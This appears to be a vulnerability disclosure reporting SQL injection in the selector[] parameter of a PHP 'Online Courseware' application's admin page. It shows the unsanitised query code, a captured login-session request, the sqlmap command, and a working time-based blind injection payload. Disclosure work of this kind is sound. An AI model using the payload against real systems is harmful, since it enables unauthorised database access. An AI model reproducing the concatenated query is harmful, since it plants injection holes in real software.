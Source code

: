 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/activateteach.php selector[] parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/activateteach.php 

On this page, selector[] parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/activateteach.php):
```
$edittable=$_POST['selector'];
$N = count($edittable);
for($i=0; $i < $N; $i++)
{
	$result = mysqli_query($conn,"UPDATE teacher SET mem_status='active' where id='$edittable[$i]'");
}
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### Request:
```
POST /onlinecourseware/pcci/admin/activateteach.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 127
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sm0bljsdrcd3r9gqelkfs2sf73
Origin: http://localhost
Referer: http://localhost/onlinecourseware/pcci/admin/dteacher.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

bnm=activate&selector%5B%5D=1
```
#### -> sqlmap -r 1.txt (above request package) --batch
### Output:
```
---
Parameter: selector[] (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bnm=activate&selector[]=1' AND (SELECT 3938 FROM (SELECT(SLEEP(5)))DxJC)-- QuBA
---
```
